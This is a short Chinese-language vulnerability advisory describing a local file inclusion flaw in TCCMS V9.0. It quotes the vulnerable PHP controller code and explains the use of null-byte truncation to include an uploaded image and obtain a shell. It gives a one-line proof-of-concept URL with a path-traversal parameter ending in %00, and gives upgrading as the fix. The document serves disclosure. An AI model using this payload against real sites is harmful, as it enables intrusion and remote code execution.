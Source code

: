 # TCCMS V9.0 本地文件包含
---
### 1. 漏洞成因

在system/core/controller.class.php中run函数对参数过滤不严

```
public function Run() {
    $this->Analysis();
    $this->control = $_GET['c'];
    $this->action = $_GET['a'];
    if ($_GET['a'] === "list") {
        $this->action = "listAll";
    }
    //子目录支持
    $dir = '';
    if (isset($_GET['d'])) {
    	$dir .= $_GET['d'].'/';
    }
    $adminDir = '/controller/';
    if (defined('IN_ADMIN')) {
    	$adminDir = '/admin/';
    }
    //子模块支持
    $module = strcmp(MODULE, "/") == 0 ? 'app' : MODULE;
    $controlFile = ROOT_PATH . '/' . $module . $adminDir . $dir.$this->control. '.class.php';
    if (!file_exists($controlFile)) {
            $this->setValue("error",$this->control.Config::lang("CONTROLLERNOTEXISTS"));
        $this->forward("error.html");
        exit;
    }
    include($controlFile);
    if (!class_exists($this->control)) {
        $this->setValue("error",$this->control.Config::lang("CONTROLLERNOTDEFINED"));
        $this->forward("error.html");
        exit;
    }
    $instance = new $this->control();
    if (!method_exists($instance, $this->action)) {
        $this->setValue("error", $this->action .Config::lang("METHODNOTFIND"));
        $this->forward("error.html");
        exit;
    }
    $methodName = $this->action;
    $instance->$methodName();
}
```
从GET中获取的d参数未进行过滤，结合在php5.3.4以下的版本的空字符截断可进行本地文件包含并获取shell，本地文件可在注册后进行图片上传得到

### 2. 漏洞验证

poc:

```
http://xxx.com/index.php?d=../../uploadfiles/local_filename.jpg%00
```
![](http://images.sebug.net/contribute/13f54833-39b0-421c-af0b-c874998bd7c4-tccms_upload.png)

### 3. 影响版本

TCCMS V9.0

### 4. 防护方案

升级版本